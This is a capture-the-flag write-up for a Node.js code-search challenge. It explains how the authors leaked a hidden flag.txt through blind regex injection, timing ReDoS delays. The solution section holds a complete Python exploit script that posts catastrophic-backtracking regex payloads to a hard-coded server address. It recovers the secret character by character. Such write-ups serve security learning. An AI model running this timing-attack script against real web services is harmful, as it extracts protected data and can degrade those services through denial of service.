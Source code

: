 ### Challenge Description

Welcome to CTRL+F the website! It's pretty much just GitHub code search.

[Challenge files](./code-db.zip)

### Overview

In this challenge, we were given an application with a git-like search feature which lets us search for files using `keywords` or `regex`. The flag is in a file named `flag.txt` and naturally so, direct access is blocked. The application filters the match results before returning as such:
```js
const results = Object.entries(filesIndex)
    .filter(([fileName, fileData]) => {
        if (language && language !== 'All') {
            return fileData.language === language;
        }
        return true;
    })
    .map(([fileName, fileData]) => {
        console.log(`Processing file: ${fileName}`);
        let content;
        try {
            content = fs.readFileSync(fileData.path, 'utf-8');
        } catch (e) {
            console.error(`Error reading file ${fileData.path}:`, e);
            return null;
        }

        let matchIndices = [];
        if (searchRegex) {
            matchIndices = handleRegexSearch(content, searchRegex);
        } else if (searchTerm) {
            matchIndices = handleNormalSearch(content, searchTerm);
        }

        if (matchIndices.length === 0) return null;

        const preview = generatePreview(content, matchIndices, PREVIEW_LENGTH);
        return preview
            ? {
                    fileName,
                    preview,
                    language: fileData.language,
                    visible: fileData.visible
                }
            : null;
    })
    .filter(result => result !== null && result.visible);

```
The visible property is set to `false` for flag.txt earlier while initialization.

### Solution

The node application uses a unique feature called `worker-threads` that I had never seen before, so I read a bit about it. Turns out it allowed parallelism in Node.js for CPU-intensive tasks. Obviously enough, our first guess was that there would be some `Race Condition` but there wasn't, we just wasted a few hours down that rabbit hole.

The filter code seemed perfectly fine; we couldn't fool the filters. Then continuing with our search, we thought of looking out for some Regex based attacks and stumbled upon something interesting - [ReDos](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS). Turns out we can DoS a server if we feed it a computationally expensive `Evil Regex` 😈. Ah! now the worker threads make sense.
```
The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression (Regex) to enter these extreme situations and then hang for a very long time.
```

So maybe we could make such a regex that detects if certain pattern exists in a string or not and cause a delayed response accordingly, and we could extracted the flag char by char with a time-based attack. Sounds impressive right? But we didn't knew if this was possible, so the search started again.. and we found out this intresting blog post from Portswigger - [Blind regex injection: Theoretical exploit offers new means of forcing web apps to spill secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)

It explained how this exploit was possible and even included a link to a proof of concept (PoC). Nice! If you want a more thorough understanding of the exploit, check out this highly recommended [post](https://diary.shift-js.info/blind-regular-expression-injection/).

After gaining a basic understanding of the exploit, we modified it to suit our challenge. Here's the final script we created:


```py
import socket
import requests
import sys
import time
import random
import string
import re

THRESHOLD = 1

def length_in(i, j):
    return ".{" + str(i) + "," + str(j) + "}$"

def nth_char_in(n, S):
    return ".{" + str(n-1) + "}[" + ''.join(list(map(re.escape, S))) + "].*$"

def redos_if(regexp, salt):
    return "^uoftctf(?={})(((.*)*)*)*{}".format(regexp, salt)

def get_request_duration(payload):
    try:
        payload = "/" + payload + "/"
        _start = time.time()
        requests.post("http://34.162.172.123:3000/search", json={"query": payload, "language": "All"})
        _end = time.time()
        duration = _end - _start
    except:
        duration = -1
        exit(1)
        return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD

def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])

if __name__ == '__main__':
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))
    lower_bound = 1
    upper_bound = 100
    while lower_bound != upper_bound:
        m = (lower_bound + upper_bound) // 2
        if prop_holds(length_in(lower_bound, m), salt):
            upper_bound = m
        else:
            lower_bound = m + 1
        print("[*] {}, {}".format(lower_bound, upper_bound))
    secret_length = lower_bound   
    print("[+] length: {}".format(secret_length))

    S = string.printable
    secret = ""
    for i in range(0, secret_length):
        lower_bound = 0
        upper_bound = len(S)-1
        while lower_bound != upper_bound:
            m = (lower_bound + upper_bound) // 2
            if prop_holds(nth_char_in(i+1, S[lower_bound:(m+1)]), salt):
                upper_bound = m
            else:
                lower_bound = m + 1
        secret += S[lower_bound]
        print("[*] {}".format(secret))        
    print("[+] secret: {}".format(secret))
```

And surprisingly, it worked! Watching the flag revealed character by character was so exciting—a truly fun challenge!